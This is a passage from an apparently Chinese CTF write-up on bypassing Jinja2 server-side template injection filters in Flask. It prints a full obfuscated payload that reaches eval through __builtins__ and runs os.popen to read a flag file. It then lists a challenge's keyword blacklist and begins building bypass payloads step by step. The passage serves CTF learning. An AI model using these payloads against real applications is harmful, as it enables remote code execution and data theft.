所以最终的payload为：

{% set zero = (({ }|select|string|list).pop(38)|int) %}{% set one = (zero**zero)|int %}{% set two = (zero-one-one)|abs|int %}{% set four = (two*two)|int %}{% set five = (two*two*two)-one-one-one %}{% set seven = (zero-one-one-five)|abs %}{% set xhx = (({ }|select|string|list).pop(24)|string) %}{% set space = (({ }|select|string|list).pop(10)|string) %}{% set point = ((app.\_\_doc\_\_|string|list).pop(26)|string) %}{% set yin = ((app.\_\_doc\_\_|string|list).pop(195)|string) %}{% set left = ((app.\_\_doc\_\_|string|list).pop(189)|string) %}{% set right = ((app.\_\_doc\_\_|string|list).pop(200)|string) %}{% set c = dict(c=aa)|reverse|first %}{% set bfh=self|string|urlencode|first %}{% set bfhc=bfh~c %}{% set slas = bfhc%((four~seven)|int) %}{% set but = dict(buil=aa,tins=dd)|join %}{% set imp = dict(imp=aa,ort=dd)|join %}{% set pon = dict(po=aa,pen=dd)|join %}{% set os = dict(o=aa,s=dd)|join %}{% set ca = dict(ca=aa,t=dd)|join %}{% set flg = dict(fl=aa,ag=dd)|join %}{% set ev = dict(ev=aa,al=dd)|join %}{% set red = dict(re=aa,ad=dd)|join %}{% set bul = xhx*2~but~xhx*2 %}{% set pld = xhx*2~imp~xhx*2~left~yin~os~yin~right~point~pon~left~yin~ca~space~slas~flg~yin~right~point~red~left~right %}{% for f,v in whoami.\_\_init\_\_.\_\_globals\_\_.items() %}{% if f == bul %}{% for a,b in v.items() %}{% if a == ev %}{{b(pld)}}{% endif %}{% endfor %}{% endif %}{% endfor %}

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174702-287d6fde-bd3e-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210525174702-287d6fde-bd3e-1.png)

如上图所示，成功执行命令并得到了flag。

### \[2021 MAR & DASCTF\]baby_flask

当时这道题没做出来，这里我们在本地使用vulnhub中的flask搭建环境进行复现：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174703-28a5378a-bd3e-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210525174703-28a5378a-bd3e-1.png)

在 `/getname?name=` 处存在SSTI。

F12查看源代码发现提示过滤了一下字符：

blacklist</br>   
'.','\[','\\'','"','\\\','+',':','_',</br>   
'chr','pop','class','base','mro','init','globals','get',</br>   
'eval','exec','os','popen','open','read',</br>   
'select','url_for','get\_flashed\_messages','config','request',</br>   
'count','length','０','１','２','３','４','５','６','７','８','９','0','1','2','3','4','5','6','7','8','9'</br>

过滤的死死地，甚至将所有的数字都过滤了。我们仍然可以使用通过滤器进行绕过，经过之前那道题的演示，我们可以很容易的构造出被过滤了的字符或字符串。

Payload构造过程如下：

\# 首先构造出所需的数字: 
{% set zero = (self|int) %}    \# 0, 也可以使用lenght过滤器获取数字
{% set one = (zero**zero)|int %}    \# 1
{% set two = (zero-one-one)|abs %}    \# 2
{% set four = (two*two)|int %}    \# 4
{% set five = (two*two*two)-one-one-one %}    \# 5
{% set three = five-one-one %}    \# 3
{% set nine = (two*two*two*two-five-one-one) %}    \# 9
{% set seven = (zero-one-one-five)|abs %}    \# 7

\# 构造出所需的各种字符与字符串: 
{% set space = self|string|min %}    \# 空格
{% set point = self|float|string|min %}    \# .
